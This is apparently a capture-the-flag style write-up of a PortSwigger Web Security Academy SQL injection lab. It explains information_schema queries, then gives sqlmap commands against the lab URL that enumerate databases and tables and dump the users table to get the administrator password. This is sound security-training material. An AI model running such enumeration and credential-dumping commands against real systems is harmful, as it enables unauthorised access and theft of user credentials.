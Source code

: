 # SQL injection attack, listing the database contents on non-Oracle databases

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

## Definition
Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

You can query information_schema.tables to list the tables in the database:
SELECT * FROM information_schema.tables

This returns output like the following:

```bash
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

This output indicates that there are three tables, called Products, Users, and Feedback.

You can then query information_schema.columns to list the columns in individual tables:
SELECT * FROM information_schema.columns WHERE table_name = 'Users'

This returns output like the following:
```bash
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

This output shows the columns in the specified table and the data type of each column. 

## Notes
This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user. 

**DATABASE RECON**

- Which database is running on the backend?
```bash
python3 sqlmap.py -u "https://0a9500c003e7e638c0185c7c00e40059.web-security-academy.net/filter?category=Gifts" --dbs
```
  
![Listing databases](images/image01.png)

- Which is the user's table?
```bash
python3 sqlmap.py -u "https://0a9500c003e7e638c0185c7c00e40059.web-security-academy.net/filter?category=Gifts" --tables -D public
```
  
![Listing tables](images/image02.png)

- What is the admin password?
```bash
python3 sqlmap.py -u "https://0a9500c003e7e638c0185c7c00e40059.web-security-academy.net/filter?category=Gifts" --dump -T users_zffmub
```
  
![Dumping secrets](images/image03.png)

**PRIVILEGED ACCESS**

The image below shows the `My Account` page after a successfully login as administrator.
  
![Login as administrator](images/image04.png)


## Key Words
> sql injection, system databases, system tables, dump, sqlmap